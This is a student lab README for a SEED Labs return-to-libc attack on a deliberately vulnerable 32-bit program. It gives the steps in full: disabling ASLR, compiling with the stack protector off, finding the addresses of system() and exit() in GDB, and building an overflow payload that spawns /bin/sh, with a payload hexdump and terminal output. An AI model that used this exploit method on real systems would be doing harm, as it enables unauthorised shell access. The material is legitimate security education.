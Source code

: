 # Lab2-Libc-Attack

This lab demonstrates a **Return-to-libc** exploitation technique on a **32-bit Linux** system. The objective is to exploit a vulnerable program (`retlib`) with a non-executable stack by reusing existing `libc` functions (`system()` and `exit()`) to execute `/bin/sh`, without injecting shellcode.

## Overview

This project implements a classic stack-based buffer overflow to demonstrate a **Return-to-libc (ret2libc)** attack on a 32-bit Linux binary with a non-executable stack (NX bit).

**Key Objectives:**
- Demonstrate a buffer overflow vulnerability.
- Bypass stack execution protections (NX) by reusing existing code from `libc`.
- Successfully spawn a `/bin/sh` shell by overwriting the return address to call `system()`.
- Illustrate stack frame layout and function call conventions in 32-bit x86.

## Prerequisites
- 32-bit Linux VM (lab environment)
- `gcc` with multilib support (if building 32-bit on a 64-bit host)
- Python 3
- GDB (with **peda** or similar is helpful)
- Example seed image: [https://seedsecuritylabs.org/lab_env.html](https://seedsecuritylabs.org/lab_env.html)

## Repository Files
| File | Description |
|------|-------------|
| `retlib.c` | Vulnerable program with a stack-based buffer overflow. |
| `envaddr.c` | Helper utility to print the address of an environment variable. |
| `exploit.py` | Python script to generate the `badfile` payload. |
| `badfile` | Binary payload file generated by `exploit.py`. |
| `README.md` | This documentation. |
| `images/` | Screenshots of the exploitation process. |

### Image References
- `images/01-envaddr.png`: Output of the `envaddr` helper program.
- `images/02-hexdump.png`: Hexdump of the `badfile` payload.

## Exploitation Flow
The attack bypasses the non-executable stack by overwriting the saved return address to point to the `system()` function in `libc`.

1. **Disable ASLR**
   - Run: `echo 0 > /proc/sys/kernel/randomize_va_space` (as root) for stable `libc` addresses.

2. **Find Target Addresses**
   - Set environment variable: `export MYSHELL=/bin/sh`.
   - Use `envaddr` or GDB to find the runtime address of `"/bin/sh"`.
   - Use GDB on `retlib` to find `system()` and `exit()` addresses in `libc`.

3. **Construct Payload**
   - The `exploit.py` script creates `badfile` to overflow the `buffer` in `bof()` and overwrite the stack frame.
   - **Payload Layout:**
[ A * (Offset to EBP) ] + [ Saved EBP ] + [ system_addr ] + [ exit_addr ] + [ sh_addr ]
text- Fills the buffer, restores saved EBP, and hijacks the return address.

4. **Execute Exploit**
- `retlib` reads `badfile`, triggering the overflow.
- On return, control flows to `system()`, executing `/bin/sh`.
- `exit()` ensures clean termination.

## How to Compile and Run
### 1. Disable ASLR (as root)
```bash
echo 0 > /proc/sys/kernel/randomize_va_space
2. Compile (32-bit)
bashgcc -m32 -o retlib retlib.c -fno-stack-protector -z noexecstack
gcc -m32 -o envaddr envaddr.c
3. Get Addresses
bashexport MYSHELL=/bin/sh
./envaddr
# Example output: Address: 0xbfffff01
gdb -q ./retlib
(gdb) p (void*) system
# Example: $1 = (void *) 0xb7da4da0 <__libc_system>
(gdb) p (void*) exit
# Example: $2 = (void *) 0xb7d989d0 <__GI_exit>
4. Build and Run Exploit
Update exploit.py with addresses from Step 3.
bashpython3 exploit.py
./retlib
Example Output
bash[10/02/25]seed@VM:~/Desktop$ python3 exploit.py
[10/02/25]seed@VM:~/Desktop$ hexdump -C badfile | tail
00000000  aa aa aa aa aa aa aa aa  aa aa aa aa aa aa aa aa  |................|
*
00000110  aa aa aa aa aa aa aa aa  aa aa 48 f3 ff bf a0 4d  |..........H....M|
00000120  da b7 d0 89 d9 b7 fd fe  ff bf                    |..........|
0000012a
[10/02/25]seed@VM:~/Desktop$ ./retlib
Address of input[] inside main():  0xbfffef70
Input size: 298
Address of buffer[] inside bof():  0xbfffee3e
Frame Pointer value inside bof():  0xbfffef58
[10/02/25]seed@VM:~/Desktop$ whoami
seed
[10/02/25]seed@VM:~/Desktop$ echo $?
0
Step-by-Step Demonstration

Get Target Addresses

Use envaddr for /bin/sh address and GDB for system() and exit().


Payload Generation

exploit.py generates badfile. Hexdump shows system, exit, and /bin/sh addresses in little-endian.


Successful Exploit

Running ./retlib consumes badfile, overflows the buffer, and spawns a shell (whoami returns seed).



Summary of Results

Task: Use Return-to-libc to execute /bin/sh in a 32-bit program with a non-executable stack.
Result: Success — system("/bin/sh") spawned an interactive shell.
Key Lessons:

Use process-specific /bin/sh address due to differing environment layouts.
Restore saved EBP to prevent stack corruption by the leave instruction.
Keep ASLR disabled for predictable addresses in a lab environment.



Author
Prepared by: Abdulrahman ALQunaibit
Lab date: October 2, 2025
